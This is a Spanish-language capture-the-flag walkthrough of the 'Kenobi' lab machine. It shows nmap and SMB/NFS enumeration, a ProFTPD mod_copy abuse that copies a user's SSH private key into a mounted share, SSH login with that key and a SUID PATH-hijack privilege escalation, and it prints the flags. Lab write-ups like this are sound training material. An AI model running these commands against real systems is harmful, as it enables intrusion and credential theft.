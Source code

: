 
# Kenobi

## Mapeo de puertos

Escaneamos los puertos abiertos y los servicios que puedan ser vulnerables.

```
sudo nmap -sV -O -T4 10.10.17.83
```

Tenemos 7 puertos abiertos potencialmente vulnerables.


![Imagen](images/image001.png)

## Enumerando

SMB tiene dos puertos: 139 y 445. Usamos el siguiente comando de nmap con un script para enumerarlos:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.17.83
```

Encontramos 3 shares por SMB.

![Imagen](images/Pasted_image_20250223164642.png)

Accedemos al de anonymous:

```
smbclient //10.10.17.83/anonymous
```

Podemos ver que hay un fichero llamado`log.txt`.

![Imagen](images/Pasted_image_20250223164906.png)


Lo descargamos en nuestra máquina anfitrión de Kali.

![Imagen](images/Pasted_image_20250223165020.png)

Mostramos el contenido.

```
cat log.txt
```

Hay información sobre la clave de SSH y del servidor ProFTPD.

![Imagen](images/Pasted_image_20250223165112.png)

Ahora vamos a enumerar con un script de`nmap`el puerto 111, que sirve para acceder al sistema de archivos de una red:

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.236.136
```
Sólo está montada la carpeta`/var`:

![Imagen](images/image.png)

## Acceso mediante Proftpd

Buscamos una vulnerabilidad de la versión del servidor ftp en la máquina.

```
searchsploit proftpd 1.3.5
```
![Imagen](images/image-1.png)

Nos conectamos a Proftpd mediante`netcat`:

```
nc 10.10.236.136 21
```
![Imagen](images/image-2.png)

Copiamos la clave privada de SSH:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

Ponemos como carpeta de destino el directorio`/var`que está siendo compartido en la red.

```
SITE CPTO /var/tmp/id_rsa
```
![Imagen](images/image-3.png)

## Acceso por SSH

Montamos la carpeta`/var`a nuestro sistema:

```
sudo mount 10.10.236.136:/var mnt 
```
![Imagen](images/image-4.png)

Obtenemos la clave privada de Kenobi para acceder con él.

![Imagen](images/image-5.png)

Cambiamos los permisos de la clave:

```
sudo chmod 600 id_rsa
```

Nos conectamos finalmente con el usuario por SSH utilizando la clave.

```
ssh -i id_rsa kenobi@10.10.236.136
```
![Imagen](images/image-6.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/image-7.png)

```
d0b0f3f53b6caa532a83915e19224899
```

## Escalada de privilegios

Buscamos un binario con el SUID activo.

```
find / -perm -u=s -type f 2>/dev/null
```

![Imagen](images/image-8.png)


Ejecutamos el`/usr/bin/menu`porque no es un archivo ordinario:

![Imagen](images/image-9.png)


Usamos el comando`strings`también con el binario:

![Imagen](images/image-10.png)

Ese comando se está ejecutando con privilegios de root.

Nos aprovechamos de ello y rompemos el comando`curl`:


![Imagen](images/image-11.png)


El último comando significa que cuando ejecutemos otros comandos, la shell comprobará los ejecutables en el directorio`/tmp`antes de buscarlo en el resto de direcciones especificadas en el PATH original.


![Imagen](images/image-12.png)


Obtenemos la flag de`root.txt`:

```
177b3cd8562289f37382721c28381f02
```
